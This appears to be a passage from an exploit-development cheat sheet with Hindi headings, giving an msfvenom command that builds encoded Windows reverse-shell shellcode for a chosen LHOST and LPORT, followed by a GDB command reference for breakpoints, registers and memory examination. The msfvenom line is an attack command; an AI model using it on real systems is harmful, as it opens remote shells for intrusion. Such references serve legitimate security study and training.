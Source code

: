 {% code overflow="wrap" %}
```bash
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```
{% endcode %}

## GDB

### स्थापित करें
```bash
apt-get install gdb
```
### पैरामीटर
```bash
-q # No show banner
-x <file> # Auto-execute GDB instructions from here
-p <pid> # Attach to process
```
### निर्देश
```bash
run # Execute
start # Start and break in main
n/next/ni # Execute next instruction (no inside)
s/step/si # Execute next instruction
c/continue # Continue until next breakpoint
p system # Find the address of the system function
set $eip = 0x12345678 # Change value of $eip
help # Get help
quit # exit

# Disassemble
disassemble main # Disassemble the function called main
disassemble 0x12345678 # Disassemble taht address
set disassembly-flavor intel # Use intel syntax
set follow-fork-mode child/parent # Follow child/parent process

# Breakpoints
br func # Add breakpoint to function
br *func+23
br *0x12345678
del <NUM> # Delete that number of breakpoint
watch EXPRESSION # Break if the value changes

# info
info functions --> Info abount functions
info functions func --> Info of the funtion
info registers --> Value of the registers
bt # Backtrace Stack
bt full # Detailed stack
print variable
print 0x87654321 - 0x12345678 # Caculate

# x/examine
examine/<num><o/x/d/u/t/i/s/c><b/h/w/g> dir_mem/reg/puntero # Shows content of <num> in <octal/hexa/decimal/unsigned/bin/instruction/ascii/char> where each entry is a <Byte/half word (2B)/Word (4B)/Giant word (8B)>
x/o 0xDir_hex
x/2x $eip # 2Words from EIP
x/2x $eip -4 # $eip - 4
x/8xb $eip # 8 bytes (b-> byte, h-> 2bytes, w-> 4bytes, g-> 8bytes)
i r eip # Value of $eip
x/w pointer # Value of the pointer
```